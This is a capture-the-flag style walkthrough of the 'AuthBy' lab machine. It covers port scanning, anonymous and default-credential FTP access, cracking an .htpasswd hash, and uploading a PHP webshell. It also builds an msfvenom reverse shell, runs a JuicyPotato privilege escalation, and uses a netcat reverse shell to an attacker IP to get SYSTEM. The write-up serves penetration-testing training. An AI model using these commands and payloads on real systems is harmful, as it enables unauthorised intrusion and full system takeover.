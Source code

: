 # AuthBy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.160.46
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 14:56 +08
Nmap scan report for 192.168.160.46
Host is up (0.17s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
242/tcp  open  direct
3145/tcp open  csi-lfap
3389/tcp open  ms-wbt-server
```

I didn't didn't recognise prot 242 and 3145, so I ran a detailed scan on them.

```
$ sudo nmap -p 242,3145 -sC -sV --min-rate 3000 192.168.160.46     
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 14:57 +08
Nmap scan report for 192.168.160.46
Host is up (0.17s latency).

PORT     STATE SERVICE    VERSION
242/tcp  open  http       Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
|_http-title: 401 Authorization Required
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
| http-auth: 
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
3145/tcp open  zftp-admin zFTPServer admin
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### FTP Anonymous Access --> .htpasswd

The FTP service on port 21 accepts anonymous logins:

```
$ ftp 192.168.160.46 
Connected to 192.168.160.46.
220 zFTPServer v6.0, build 2011-10-17 15:25 ready.
Name (192.168.160.46:kali): anonymous
331 User name received, need password.
Password: 
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||2048|)
150 Opening connection for /bin/ls.
total 9680
----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
----------   1 root     root           25 Feb 10  2011 UninstallService.bat
----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
----------   1 root     root           17 Aug 13  2011 StopService.bat
----------   1 root     root           18 Aug 13  2011 StartService.bat
----------   1 root     root         8736 Nov 09  2011 Settings.ini
dr-xr-xr-x   1 root     root          512 Jul 13 13:56 log
----------   1 root     root         2275 Aug 08  2011 LICENSE.htm
----------   1 root     root           23 Feb 10  2011 InstallService.bat
dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
dr-xr-xr-x   1 root     root          512 Feb 18 01:19 accounts
```

The `accounts` folder is the most interesting:

```
ftp> cd accounts
250 CWD Command successful.
ftp> ls
229 Entering Extended Passive Mode (|||2049|)
150 Opening connection for /bin/ls.
total 4
dr-xr-xr-x   1 root     root          512 Feb 18 01:19 backup
----------   1 root     root          764 Feb 18 01:19 acc[Offsec].uac
----------   1 root     root         1030 Feb 18 01:19 acc[anonymous].uac
----------   1 root     root          926 Feb 18 01:19 acc[admin].ua
```

We cannot download these files, but now we know there's also an `admin` and `offsec` user. I tried re-logging in using `admin:admin`, and it worked:

```
$ ftp 192.168.160.46
Connected to 192.168.160.46.
220 zFTPServer v6.0, build 2011-10-17 15:25 ready.
Name (192.168.160.46:kali): admin
331 User name received, need password.
Password: 
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
lftp> ls
229 Entering Extended Passive Mode (|||2051|)
150 Opening connection for /bin/ls.
total 3
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
```

We can crack the hash within `.htpasswd`:

```
$ john --show hash                                     
offsec:elite

1 password hash cracked, 0 left
```

We can then login to the web application hosted on port 242:

<figure><img src="../../../.gitbook/assets/image (2248).png" alt=""><figcaption></figcaption></figure>

### RCE

I put a `cmd.php` file in the `admin` FTP folder, and it worked in getting RCE:

<figure><img src="../../../.gitbook/assets/image (3161).png" alt=""><figcaption></figcaption></figure>

The machine didn't have `powershell`, so I generated a reverse shell payload:

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.191 LPORT=4444 -f exe > rev.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Placed it within the FTP server and executed it using my webshell:

```
$ curl -H 'Authorization: Basic b2Zmc2VjOmVsaXRl' -G --data-urlencode 'cmd=.\rev.exe' http://192.168.160.46:242/cmd.php
```

<figure><img src="../../../.gitbook/assets/image (1108).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SeImpersoantePrivilege --> Potato

This user had the `SeImpersonatePrivilege` enabled:

```
C:\wamp\www>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

I tried transferring x64 binaries over, but they didn't work, indicating that the machine was x86. As such, I transferred `juicypotatox86.exe` and `nc32.exe` over to exploit this. We can dowload files using `certutil`.

```
C:\Windows\Tasks>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BCAD-595B

 Directory of C:\Windows\Tasks

07/13/2023  12:08 AM    <DIR>          .
07/13/2023  12:08 AM    <DIR>          ..
07/13/2023  12:07 AM           263,680 juicypotatox86.exe
07/13/2023  12:07 AM            38,616 nc.exe
07/09/2020  11:07 AM            21,360 SCHEDLGU.TXT
```

We can then run `nc.exe` as the SYSTEM user using Juicy Potato:

{% code overflow="wrap" %}
```
.\juicypotatox86.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p C:\Windows\system32\cmd.exe -a "/c C:\Windows\Tasks\nc.exe -e cmd.exe 192.168.45.191 4444" -t *
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (552).png" alt=""><figcaption></figcaption></figure>
